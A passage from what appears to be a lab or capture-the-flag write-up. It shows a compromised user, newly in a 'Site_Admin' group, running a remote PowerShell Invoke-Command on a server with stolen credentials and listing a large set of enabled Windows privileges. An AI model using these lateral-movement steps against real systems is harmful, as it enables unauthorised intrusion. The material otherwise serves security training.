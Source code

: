 From here, it should be possible to get a shell. As a member of `Site_Admin`,
awallace can now connect without the `dc_manage` configuration, opening all
sorts of commands and privileges:

    
    
    PS C:\Utils> Invoke-Command -ScriptBlock { whoami /priv  } -ComputerName ATSSERVER -Credential $cred
    
    PRIVILEGES INFORMATION                                                                                   
    ----------------------
    
    Privilege Name                            Description                                                        State                                                                                                 
    ========================================= ================================================================== =======                                                                                               
    SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled                                                                                               
    SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
    SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
    SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled    
    SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
    SeSystemProfilePrivilege                  Profile system performance                                         Enabled
    SeSystemtimePrivilege                     Change the system time                                             Enabled
    SeProfileSingleProcessPrivilege           Profile single process                                             Enabled                                                                                               
    SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled                                                                                               
    SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled                                                                                               
    SeBackupPrivilege                         Back up files and directories                                      Enabled                                                                                               
    SeRestorePrivilege                        Restore files and directories                                      Enabled                                                                                               
    SeShutdownPrivilege                       Shut down the system                                               Enabled                                                                                               
    SeDebugPrivilege                          Debug programs                                                     Enabled                                                                                               
    SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled      
    SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
    SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
    SeUndockPrivilege                         Remove computer from docking station                               Enabled                                                                                               SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
    SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled                                                                                               
    SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled                                                                                               
    SeCreateGlobalPrivilege                   Create global objects                                              Enabled                                                                                               
    SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled                                                                                               
    SeTimeZonePrivilege                       Change the time zone                                               Enabled                                                                                               
    SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled               